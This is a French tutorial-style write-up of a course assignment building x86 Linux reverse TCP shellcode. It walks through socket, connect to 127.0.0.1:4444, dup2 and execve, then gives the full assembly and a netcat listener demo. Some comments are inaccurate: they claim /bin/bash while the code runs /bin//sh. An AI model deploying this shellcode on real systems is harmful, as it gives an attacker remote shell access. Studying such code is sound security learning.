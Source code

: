 # Assignement 2 #

Dans le cadre du second exercice, il est demande de réaliser un shellcode permettant d'obtenir un shell distant.

L'idée ici est dans un premier temps de créer un socket puis d'établir une connexion en indiquant une adresse IP ainsi qu'un port. Les sorties standard stdin, stdout et stderr sont redirigées afin de pouvoir être utilisées une fois la connexion établie par un shell distant. 

## Création d'un socket ##
La principal référence bibliographique est la documentation des appels systèmes http://man7.org/linux/man-pages/man2/socketcall.2.html. L'appel socketcall est utilisé pour définir les actions sur les sockets en fonction du champ call. La valeur 1 indique que c'est la création d'un socket qui nous interesse. Il s'agit ici d'indiquer un domain, un type et un protocol. Nous prenons le protocol IP de type SOCK_STREAM.

```c
	xor ebx, ebx
	mul ebx
	push ebx
	inc ebx		;socket
	push ebx
	push 0x2
	mov ecx, esp	;*args
	mov al, 0x66
	int 0x80
```
## Création de la connexion ##
Nous procédons de la même manière pour créer la connexion en indiquant l'adresse IP et le port logique. Nous nous sommes appuyé sur la structure sockaddr afin de connaître les différents élément necessaires.

```c
	push 0x0101017f	; @Ip 127.0.0.1
	push dword 0x5c11 ; Port 4444
	inc ebx
    	push word bx      ; Ajout de AF_INET et pour eviter d'avoir un null byte
    	mov ecx, esp	
	push 0x10	; addrlen
	push ecx	; struct *addr
	push edx	; sockfd
	mov bl, 0x3	; connect call
	mov ecx, esp	
	mov al, 0x66
	int 0x80
```

## Redirection ##

Ici, nous redirigeons les 3 sorties vers le socket via l'appel système dup2.

```c
	xor ecx, ecx
	mov cl, 0x2
_:
	mov al, 0x3f
	int 0x80
	dec ecx
	jns _

```

## Exécution du shell ##
Puis enfin, le shell(/bin/bash) est exécuté une fois la connexion établie.

```c
	xor ecx, ecx
	mov edx, ecx
	push edx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	mov al, 0xb
	int 0x80
```



## Code complet ##

```c
; Shell_reverse_Tcp shellcode
; Author: Alain Menelet
; Taille : 74 bytes
; 2017


global _start

section .text

_start:

	; Création du socket
	; http://man7.org/linux/man-pages/man2/socketcall.2.html
	; int socketcall(int call, unsigned long *args)
	; int socket(int domain, int type, int protocol)
	
	; for domain we use AF_INET(0x2)
	; for type SOCK_STREAM(0x1)
	; for protocol IP (0x0)	

	xor ebx, ebx
	mul ebx
	push ebx
	inc ebx		;socket
	push ebx
	push 0x2
	mov ecx, esp	;*args
	mov al, 0x66
	int 0x80

	; we need to save the result of socket function for later usage

	xchg edx, eax

	; création de la connexion
	; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
	; we save sockfd just before
	; sockaddr structure

	push 0x0101017f	; @Ip 127.0.0.1
	push dword 0x5c11 ; Port 4444
	inc ebx
    push word bx      ; Ajout de AF_INET et pour eviter d'avoir un null byte
    mov ecx, esp	
	push 0x10	; addrlen
	push ecx	; struct *addr
	push edx	; sockfd
	mov bl, 0x3	; connect call
	mov ecx, esp	
	mov al, 0x66
	int 0x80

	
	; redirection des flux via dup
	; nous allons rediriger les sorties standards vers notre socket
	; int dup2(int oldfd, int newfd);

	xor ecx, ecx
	mov cl, 0x2
_:
	mov al, 0x3f
	int 0x80
	dec ecx
	jns _
	

	; execve
	; execute un shell /bin/bash des la connexion réussie

	xor ecx, ecx
	mov edx, ecx
	push edx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	mov al, 0xb
	int 0x80	

```

## Exécution ##

Sur le premier terminal:
```
./shellcode.c
```

Sur le second terminal: 
```c
nc -l -p 4444 -v
pwd
/home/xophidia
```